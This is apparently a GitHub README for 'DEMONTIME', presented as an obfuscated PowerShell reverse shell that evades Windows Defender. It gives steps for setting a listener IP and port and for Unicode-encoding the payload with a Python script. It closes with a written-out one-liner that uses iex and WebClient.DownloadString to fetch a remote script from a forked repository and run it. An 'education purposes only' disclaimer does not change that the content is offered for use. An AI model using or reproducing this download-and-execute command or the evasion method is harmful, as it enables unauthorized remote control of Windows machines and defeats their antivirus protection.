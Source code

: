 <h1>DEMONTIME</h1>

<h2>**Heavily obfuscated PowerShell reverse shell that can bypass Windows Defender **</h2>

![image](https://github.com/aaronquiamco/demontime/assets/59388557/5958a915-6c07-42d4-8dda-dcc14cd0d9b4)



⚠️ Disclaimer: Employing the methods and principles outlined in this repository to obtain unauthorized entry into systems without proper authorization is against the law. You are accountable for your conduct. Act responsibly and refrain from engaging in malicious activities. This is for education purposes only


**Instructions**

1. Edit the Obfuscated PowerShell reverse shell one liner script with your chosen listener IP Address and Port number.
![image](https://github.com/aaronquiamco/experiment/assets/59388557/2f24cc8b-af55-429a-a7ac-97786da28d29)

2. Use the Python script to convert the PowerShell reverse shell one liner characters to its Unicode format.
![image](https://github.com/aaronquiamco/experiment/assets/59388557/ad971d49-e938-491b-92d8-27838499b5fa)

3. Replace the Unicode payload on the demontime.ps1 script with the output generated from the Python script.

**Optional**

Fork this repo so you can run the following one liner with your own IP Address and Port number:


**NOTE: Replace the URL with your own forked repo.** 

```iex -Debug -Verbose -ErrorVariable $e -InformationAction Ignore -WarningAction Inquire (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/xxxxxx/experiment/main/demontime.ps1');demontime```



